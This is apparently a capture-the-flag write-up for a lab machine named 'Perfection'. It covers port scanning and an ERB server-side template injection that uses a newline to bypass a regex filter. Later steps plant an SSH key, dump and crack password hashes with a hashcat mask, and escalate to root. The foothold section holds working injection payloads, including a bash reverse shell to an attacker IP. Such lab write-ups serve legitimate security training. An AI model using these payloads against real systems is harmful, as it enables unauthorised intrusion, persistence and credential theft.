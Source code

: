 ```yaml
---
title: Perfection
published: true
layout: post
---
```


<br />

---------------
Perfection is an easy Linux machine that features a web application with functionality to calculate student scores. This application is vulnerable to Server-Side Template Injection (SSTI) via regex filter bypass. A foothold can be gained by exploiting the SSTI vulnerability. Enumerating the user reveals they are part of the sudo group. Further enumeration uncovers a database with password hashes, and the user's mail reveals a possible password format. Using a mask attack on the hash, the user's password is obtained, which is leveraged to gain root access. 

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/VWSd_V7qtaY?si=rPgEI3iybf_bt-FQ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.11.253 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.11.253 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```

![](/assets/Perfection/1.png)

<br />
<br />

There are **2 open ports**:
+ **22/tcp**
+ **80/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.11.253 -p 22,80 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```

![](/assets/Perfection/2.png)

<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.9p1**
+ **80/tcp nginx**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.253 -p 22,80 -T4 --min-rate 5000 --script="vuln or intrusive or discovery or *ssh* or *http* or *nginx*" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```

<br />

This scan didn't return any relevant information.

<br />

------

<br />
### Foothold

I actually found this machine a little bit hard, as I hadn't faced an **Server Side Template Injection (SSTI)** until this machine.

<br />

We can find a website that calculate a weighted grade based on an **input**, in the category textbox I tried to **inject commands**, and I received this output:<br />

![](/assets/Perfection/3.png)

<br />
<br />

I tried to **detect which characters are blocked** using BurpSuite, however none of the characters are useful for escaping to inject commands:<br />

![](/assets/Perfection/4.png)

<br />
<br />

I was stuck, so I searched in the Internet how this kind of filtering works, and I found that most of them work by **filtering only until the end of the line**, so I tried creating a **new line and using a blocked character**:

```bash
tanades%0a|whoami
```

![](/assets/Perfection/5.png)

<br />
<br />

I tried some **SSTI payloads** until I found one that worked, I also **URL encoded** them:

```bash
tanades%0a<%= 7*7 %>
```

![](/assets/Perfection/6.png)

<br />
<br />

Great!! Ruby interpreted it, let's try to **inject a command**:

```bash
tanades%0a<=% `ls /` %>
```

![](/assets/Perfection/7.png)

<br />
<br />

Great!! We can inject OS commands, so let's inject a reverse shell, but first remember to start listening:

```bash
nc -nlvp 4444
tanades%0a<=% `/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.5/4444 0>&1'` %>
```

![](/assets/Perfection/8.png)

<br />
<br />

Great!! We have a reverse shell in the machine, before anything, I pasted my **SSH public key in the authorized_keys** of this user to log in using SSH:

```bash
Kali> cat ~/.ssh/id_rsa.pub | tr -d '\n' | xclip -sel clip
Victim> mkdir /home/susan/.ssh
Victim> echo "public_key" >> /home/susan/.ssh/authorized_keys
```

<br />

Now we can log into the victim machine using SSH:

```bash
ssh susan@10.10.11.253
```

![](/assets/Perfection/9.png)

<br />
<br />

Let's print the flag and continue:<br />

![](/assets/Perfection/10.png)

<br />
<br />

------

<br />
### Privilege Escalation

<br />

Escalating privileges in this machine is quite entertaining, is something I haven't done before, but easier than SSTI.

<br />

We can find a few relevant pieces of information in this machine:

- A database with credentials in **/home/user/susan/Migration/pupilpath_credentials.db**.
- A mail in **/var/mail/susan**.
- We are part of the sudo group, however we need susan's password to use sudo.

Let's examine the database contents:

```bash
sqlite3 Migration/pupilpath_credentials.db
.tables
select * from users;
```

![](/assets/Perfection/11.png)

<br />
<br />

We have some hashes, which according to `hashid` is **SHA2-256**, let's continue with the email:

![](/assets/Perfection/12.png)

<br />
<br />

Okay, so we have a hash and a pattern for the password, let's use **hashcat in brute force** mode to crack it:

```bash
hashcat -a 3 -w 3 -m 1400 susan.hash susan_nasus_?d?d?d?d?d?d?d?d?d?d --increment
```

![](/assets/Perfection/13.png)

<br />
<br />

After a long time, we finally **cracked the password**, let's use it to elevate privileges and print the flag:

```bash
sudo su
cat /root/root.txt
```

![](/assets/Perfection/14.png)

<br />
<br />
